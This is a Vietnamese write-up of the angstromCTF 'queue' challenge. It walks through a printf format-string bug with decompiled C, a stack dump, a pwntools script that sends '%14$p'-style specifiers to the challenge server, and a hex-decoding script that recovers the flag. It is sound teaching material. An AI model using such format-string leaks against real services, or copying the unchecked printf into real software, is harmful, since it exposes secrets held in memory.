 # angstromCTF - queue

```c
int main(int argc, const char **argv, const char **envp)
{
  __gid_t rgid;
  FILE *stream;
  char format[48];
  char s[136];
  unsigned __int64 cannary;

  cannary = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Error: missing flag.txt.");
    exit(1);
  }
  fgets(s, 128, stream);
  printf("What did you learn in class today? ");
  fgets(format, 48, stdin);
  printf("Oh nice, ");
  printf(format);                               // format string
  printf("sounds pretty cool!");
  return cannary - __readfsqword(0x28u);
}
```
Chall này chỉ đơn giản là chương trình sẽ đọc flag từ trong file rồi lưu ở trong stack, và chúng ta có lỗi format string ở đây. Ta sẽ lợi dụng lỗi này để đọc flag từ stack.

```java
gef➤  tel
0x00007fffffffded0│+0x0000: 0x000003e800000000   ← $rsp
0x00007fffffffded8│+0x0008: 0x000055555555a2a0  →  0x00000000fbad2488
0x00007fffffffdee0│+0x0010: 0x0000000000000000
0x00007fffffffdee8│+0x0018: 0x0000000000000000
0x00007fffffffdef0│+0x0020: 0x0000000000000000
0x00007fffffffdef8│+0x0028: 0x0000000000000000
0x00007fffffffdf00│+0x0030: 0x0000000000000000
0x00007fffffffdf08│+0x0038: 0x0000000000000000
0x00007fffffffdf10│+0x0040: "{this is flagggggggggggggggggggggggggggggggggggggg[...]"
0x00007fffffffdf18│+0x0048: " flagggggggggggggggggggggggggggggggggggggggggg}\n"
gef➤
0x00007fffffffdf20│+0x0050: "gggggggggggggggggggggggggggggggggggggg}\n"
0x00007fffffffdf28│+0x0058: "gggggggggggggggggggggggggggggg}\n"
0x00007fffffffdf30│+0x0060: "gggggggggggggggggggggg}\n"
0x00007fffffffdf38│+0x0068: "gggggggggggggg}\n"
0x00007fffffffdf40│+0x0070: "gggggg}\n"
0x00007fffffffdf48│+0x0078: 0x00007ffff7fe2800  →   (bad)
0x00007fffffffdf50│+0x0080: 0x00000000000006f0
0x00007fffffffdf58│+0x0088: 0x00007fffffffe309  →  0x821549b5d9030d68
0x00007fffffffdf60│+0x0090: 0x00007ffff7fc1000  →  0x00010102464c457f
0x00007fffffffdf68│+0x0098: 0x0000010101000000
```
flag của ta sẽ nằm ở % thứ 14 (cái kia là flag mình tạo để debug thôi), và để cho chắc thì cứ pad từ % thứ 14 trở đi =)). Phía dưới là payload mình sử dụng

```python
#!/usr/bin/env python3

from pwn import *

context.binary = exe = ELF("./queue_patched")
libc = ELF("./libc.so.6")

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote('challs.actf.co', 31322)
    return r

def main():
    r = conn()
    r. sendlineafter(b'? ', b'%14$p %15$p %16$p %17$p %18$p %19$p %20$p %21$p')
    r.interactive()

if __name__ == "__main__":
    main()

```
Sau khi remote đến server ta sẽ được một chuỗi hex như thế này:

```java
[DEBUG] Received 0x9 bytes:
    b'Oh nice, '
Oh nice, [DEBUG] Received 0x83 bytes:
    b'0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil) (nil)sounds pretty cool!'
0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil) (nil)sounds pretty cool!
```
Đến đoạn này thì mình cần chuyển đống hex hày về dạng bản rõ. Do nó đang ở dạng little endian nên ta sẽ phải có thêm một đoạn chương trình nhằm chuyển về big endian mới có thể encode ra được
```python
str = input()
strList = str.split(" 0x")
result = ''
for i in range(len(strList)):
    while(len(strList[i])<16):
        strList[i] = '0' + strList[i]
    result += strList[i][14:] + strList[i][12:14] + \
        strList[i][10:12] + strList[i][8:10] + strList[i][6:8] + strList[i][4:6] + strList[i][2:4] + strList[i][:2]

print(result)
```
Xóa các `(nil)` đi rồi paste vào ta sẽ được 1 đống bầy nhầy kiểu : `616374667b737434636b5f69745f71756575655f69745f61363139616439373463 3836346232327d`. Việc cuối cùng là lên mạng kiếm cái tool chuyển hex thành string (hoặc có thể tự code nhưng mình lười vđ =)))

![get flag](queue.png)

`flag: actf{st4ck_it_queue_it_a619ad974c864b22}`
